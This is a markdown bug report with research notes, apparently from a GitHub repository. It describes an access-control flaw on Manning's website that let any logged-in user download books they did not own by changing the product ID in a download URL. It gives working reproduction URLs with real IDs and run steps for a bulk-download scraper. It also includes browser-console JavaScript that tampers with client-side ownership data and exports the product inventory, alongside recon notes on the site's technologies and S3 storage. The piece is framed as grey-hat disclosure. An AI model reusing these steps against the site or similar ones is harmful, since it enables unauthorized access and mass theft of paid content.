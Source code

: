 # Bug report

## Clear description of the bug & Real-world impact

Within the Manning website, and given a user is logged in;
books PDF downloads are allowed given a book_id whether the bok is owned by the user or not.
This means that an attacker can crawl the Manning catalog for all book ids,
and download all Manning books for free.

Edit 1:
Not only PDF are affected; Epub and Kindle formats as well.

Edit 2:
After trying to download all books, I saw that 349 books are affected. The others have 404 status code.

## Concise reproduction steps

- Log into the application as a regular user
- Go to https://www.manning.com/dashboard/download?productId={book_id}&downloadFormat=PDF
- https://www.manning.com/dashboard/download?productId=1619&downloadFormat=PDF
and replace the book_id by the id of your liking.
For example for "Tuning Up" https://www.manning.com/dashboard/download?productId=1308&downloadFormat=PDF.

## Working examples

Screenshot:

![](./img/download_books.png)

Source code snippets: https://gist.github.com/louisguitton/9bfb2e4e7c62a945a97d59db434009f4

```sh
pip install -r requirements.txt
# setup chromedriver by following https://chromedriver.chromium.org/getting-started
export MANNING_USERNAME=xxxx
export MANNING_PASSWORD=xxxx
python download_books.py
```

## blog post ideas

### title ideas

- So scraping bookies websites and odds worked also to get access to 10k worth of education
- how I hacked manning and helped them fix it

### Talk with Manning

- I'm not part of the Hacker community. I have not hacking in my spare time on weekends. I am not a bounty hunter. I'm just a senior engineer who has technical reflexes when I face a user issue
- You might know white hat / black hat hacking. I ended up doing what's called gey hat hacking
- I did avoid anything that could cause damage (like data loss etc...) https://security.stackexchange.com/questions/243875/could-bug-bounty-hunting-accidentally-cause-real-damage
- levels of severity = critical / high / medium / low based on CVSS + my own understanding of the business impact
- Tools / SaaS services to get your security checked
  - https://www.federacy.com/ (a Ycombinator company)
  - https://www.getastra.com/ (in github student pack)
- blog https://samcurry.net/hacking-apple/

## Findings

### Information Gathering

- technologies used on the website: wordpress
  - https://builtwith.com/manning.com
  - https://sitereport.netcraft.com/?url=manning.com
  - https://w3techs.com/sites/info/manning.com
- uses S3 to store content, ex: https://manning-content.s3.amazonaws.com/download/4/5c0b22f-03d6-4fd9-829f-0fe71db5f25f/dlwpt-code-master.zip or https://manning-content.s3.amazonaws.com/download/2/6148e88-6459-4521-9c12-5fb755249632/realworldnlp-master.zip"
- DNS  Information
  - https://www.robtex.com/dns-lookup/manning.com

### Licenses

- https://www.manning.com/dashboard/getLicensesAjax?isDropboxIntegrated=&order=purchaseDate&sort=desc&filter=all returns an HTML table of owned books

- each product has "productId" (e.g. 'teofili') and a "productManningId" (e.g. '905') https://www.manning.com/api/search/shallowSearch?query=search&boostedProduct=&new=true . The productManningId is used for downloads. The productId is used for ownership rules.

    ```json
    {
        "productTitle": "Deep Learning for Search",
        "score": "12.070444",
        "productId": "teofili",
        "productManningId": "905",
        "id": "teofili-metadata-marketplace-inside",
        "productType": "marketplaceProduct"
    },
    ```

- there is an endpoint to check ownership https://www.manning.com/search/ownership and response with productIds:

    ```json
    {"213":true,"lane2":true,"sweet":true,"harenslak":true,"grigorev":true,"hagiwara":true,"raaijmakers":true,"stevens2":true,"turnbull":true}
    ```

- in dashboard's main app.js, JS function 'p.loadOwnership();' checks for user ownership of a book

    ```js
    var u, p = window.searchStore = new Search.SearchStore(
        Search.SourceApp.marketplace,
        k,
        new Search.SearchProvider(new Search.SearchWebProvider(Search.SourceApp.marketplace,k)
    )...;

    p.loadOwnership();
    ```

- in dashboard.html, the header of the HTML on the page shows that they use 2 external JS assets for search

    ```html
        <script type="text/javascript">

        var searchServerVars = {
            deploymentType: "production",
            polyfillsLocation: "/assets/search/polyfills-marketplace-05232e8143f92aac6c2589e26341a535.js",
            mainJsLocation: "/assets/search/search-app-marketplace-baa5dc1eb4c27df2fa1f06ef1c250670.js",
            coverImage: "/assets/cover-c0e554e9d065ae2e5b8b43d622fb8b95.png",
            livebookId: "",
            videoId: "",
            optimizeTest: "uN4DQcqpSzq0TPNH2R2qMw"
        }

    </script>
    ```

- When you download and unminify the 'mainJsLocation', I saw that

    ```js
    loadOwnership = function () {
        var a = this;
        this.searchProvider.getOwnershipInfo().then(function (c) {
            y.ProductUtils.userOwnedProducts = c;
            a.triggerOwnershipChange();
        });
    }
    triggerOwnershipChange = function () {
        this.changeEmitter.emit("ownershipChange");
    }
    getOwnershipInfo = function () {
        var b = this;
        return new Promise(function (a, e) {
            b.webUtils.ajax(
            (null != b.additionalParams && b.additionalParams.ownershipEndpoint) || b.webUtils.getAbsoluteBackendUrl("/search/ownership"),
            function (b) {
                return a(b);
            },
            function (a) {
                return e(a);
            }, {},
            !1,
            !0
            );
        });
    }
    ```

- this means that in the chrome console, someone can do:

    ```js
    var p = window.searchStore;
    p.searchProvider.getOwnershipInfo().then(function (c) {
        xxx.ProductUtils.userOwnedProducts = {...c, "teofili": true}
        // not Search
        // not this.ProductProvider.provider.ProductUtils.userOwnedProducts
        p.triggerOwnershipChange();
    })

- it's possible to download all inventory data with

    ```js
    function downloadObjectAsJson(exportObj, exportName){
        var dataStr = "data:text/json;charset=utf-8," + encodeURIComponent(JSON.stringify(exportObj));
        var downloadAnchorNode = document.createElement('a');
        downloadAnchorNode.setAttribute("href",     dataStr);
        downloadAnchorNode.setAttribute("download", exportName + ".json");
        document.body.appendChild(downloadAnchorNode); // required for firefox
        downloadAnchorNode.click();
        downloadAnchorNode.remove();
    }

    var p = window.searchStore;
    p.searchProvider.productProvider.productInfosPromise.then(function (c) {
        downloadObjectAsJson(c, "inventory")
    });
    ```
